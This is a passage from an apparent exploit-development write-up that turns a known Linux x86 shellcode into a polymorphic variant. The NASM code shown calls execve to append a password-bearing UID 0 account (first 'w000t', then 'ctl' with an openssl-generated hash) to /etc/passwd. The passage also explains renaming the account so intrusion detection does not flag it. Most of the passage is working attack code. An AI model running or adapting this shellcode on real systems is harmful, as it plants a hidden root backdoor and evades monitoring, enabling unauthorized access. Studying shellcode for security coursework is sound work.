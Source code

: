 ```nasm
  lea ecx, [esi +73]        ; argv pointers to args
  lea edx, [esi +85]        ; fill edx with null dword
  int 0x80                  ; executes execve systemcall
jmp2call:
  call string2stack         ; jumps 2 next instruction and pushes memory location of string
                            ; below onto the stack.
  string db "/bin/sh#-c#/bin/echo w000t::0:0:s4fem0de:/root:/bin/bash >> /etc/passwd#AAAABBBBCCCCDDDD"
;            0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567
;                      1         2         3         4         5         6         7         8
```
+ The code was compilted & tested; works as intended.
+ To find the intructions gdb was used. 

### Problem with this Shellcode
+ When this shellcode was created, linux systems would allow an account with no password to be logged in by anyone.
+ Modern Linux systems, will lock the account if it has no password.
+ Any attempt to login will recieve the error `"Authentication Failure"`.
+ Deleting a password is now a technique for sys-admins to lock a users account.

#### Creating a Hashed Password for /etc/passwd
```console
user$ openssl passwd ctl
NNwZ8D1QjVy3Y
```
+ This creates the hash for the password `ctl`. 
+ We will use this in the second field of `/etc/passwd` line.

#### w000t username
+ The strings `w00t` & `w000t` are frequently used in known exploits.
+ Highly likely an IPS/IDS will flag these strings.
+ the username `ctl` was used instead.

## Changing the Shellcode

### argv[] / ECX - Stack instead of Code Section
In the original shellcode, `JMP|Call|POP` was used to load the memory address of the string into the `esi` register. 
+ All pointers to fufill the second arguments `argv[]`, for `execve` where within this string.
+ In the polymorphic version, all of the arguements for `argv[]` on the `stack`.

#### argv[3] - End the argv[] Array
```nasm
  xor eax, eax              ; clear out eax register
snip--
  push eax                  ; push to stack argv[] Null dword array terminator.
```

#### argv[2] - Arguements to Flag
```nasm
  mov byte [esi +61], al    ; Null byte to terminate string
                            ;  "/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
  lea ebx, [esi +3]         ; move pointer to string "/bin/echo..." into ebx register
  push ebx                  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
```
